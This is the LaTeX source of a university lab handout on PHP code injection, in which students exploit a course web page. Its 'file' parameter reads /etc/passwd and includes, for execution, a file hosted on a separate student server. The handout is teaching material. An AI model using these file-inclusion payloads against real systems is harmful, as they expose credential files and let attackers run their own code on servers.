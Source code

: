 \documentclass{article}
\begin{document}
\title{Code Injection\\ IN618 Security}
\date{}
\maketitle

\section*{Introduction}
In this lab we will see how insecure coding practices lead to a \emph{code injection} vulnerability.

\section{Probe for the vulnerability}
Visit the web page at \url{http://in618.sqrawler.com/includes/}.  If you inspect this page now you will
not find the vulnerabilty, but what about \url{http://in618.sqrawler.com/includes?file=safe} ?  Before
you read further, try to answer the following questions:

1. What do you think leads to the difference in the two views above?

\vspace{25mm}

2. Can you think of any ways to exploit this?

\vspace{25mm}

You can see more directly what is happening by visiting \url{http://in618.sqrawler.com/includes/safe}.
The web page we looked at above reads in this file and the server executes the php code to insert the
date and time into the page.  Including code from another file like this is a common practice, but
in this case it has been used carelessly, leading to a vulnerability. We can try to include other files 
in the page besides the one that was intended.

Try visiting \url{http://in618.sqrawler.com/includes/?file=/etc/passwd}.  It turns out that we can
exploit this to view almost any file on the server.  But it turns out that we can do even more than this.
What if it's possible to include files on remote systems?

\newpage

Let's try it.  Visit the url 
\url{http://in618.sqrawler.com/includes/?file=http://sec-student.sqrawler.com/~tclark/unsafe}.  You can 
inspect the included file at \url{http://sec-student.sqrawler.com/~tclark/unsafe}.

1. Knowing this, what does this mean you can do?

\vspace{25mm}

2. Now write your own file and save it in your \texttt{public\_html} directory on \texttt{sec-student}.
Use the method above to get your code included in the web page at 
\url{http://in618.sqrawler.com/includes/}. Write your url below.

\vspace{25mm}

The vulnerabilities we've seen are the results of three programming mistakes.  We'll talk about them in
class, but can you see what they are before we discuss it?
\end{document}
